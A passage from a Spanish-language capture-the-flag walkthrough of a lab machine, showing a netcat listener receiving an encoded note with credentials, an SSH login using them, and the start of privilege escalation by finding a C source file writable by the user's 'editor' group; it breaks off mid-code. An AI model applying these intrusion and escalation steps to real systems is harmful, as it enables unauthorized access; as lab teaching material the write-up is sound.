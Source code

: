 ```
listening on [any] 7777 ...
connect to [172.17.0.188] from (UNKNOWN) [172.17.0.2] 44619
MFDTS42ZKNCWOYZSHF2GEM2NM5NFO53HLIZUUMLDI44GOULNPBUFSMTUIRMVQULTJFEEE3DCNZHGQYSXHF5ESR2WOVEUOVTVLEZUU4DDJBJGQY3JIJWGGM2SNQFESSCONRRW4WTMMNUUE522LBFHMSKHGV3ESSCSOBNFONLMJFDTK2C2I5CWOWSHKVTWCVZVGBNFQSTMMN4XOZ3EI5KWOWKXNB3GG3SKNBRW2VLHMRDWY3DCLBBHMCSPNFBGUY3NNR5GIR2GONHW2UTZMIZUE2TBI44XUZCHHF3U4RCVPJKTA4CHJFCG6Z22I5WHUWTOJIYWIR2FJMFA====
```

Vemos que nos esta llegando un mensaje en `Base32` y despues en `Base64`, si lo decodificamos veremos lo siguiente:

```
hola! somos el grupo BlackCat, pensamos en encriptar este server pero no tiene nada de interes, te ahorrare tiempo: cristal:dropchostop453SJF : disfruta
```

Vemos que obtenemos unas credenciales, por lo que nos conectaremos por `ssh`.

### SSH

```shell
ssh cristal@<IP>
```

Metemos como contraseña `dropchostop453SJF` y veremos que estamos dentro.

## Escalate Privileges

Si vemos a que grupos pertenecemos, veremos lo siguiente:

```shell
id
```

Info:

```
uid=1002(cristal) gid=1002(cristal) groups=1002(cristal),100(users),1003(editor)
```

Vemos que pertenecemos a un grupo llamado `editor` bastante interesante, por lo que vamos a ver si ese grupo esta sujeto algun archivo de la siguiente forma:

```shell
find / -type f -group editor 2>/dev/null
```

Info:

```
/home/cristal/systm.c
```

Vemos que esta sujeto a ese archivo y podremos editarlo, si vemos que contiene:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/utsname.h>
#include <time.h>

void log_system_info(const char *filename) {
    FILE *log_file = fopen(filename, "a");
    if (log_file == NULL) {
        perror("Error al abrir el archivo de log");
        exit(EXIT_FAILURE);
    }

    // Información del sistema
```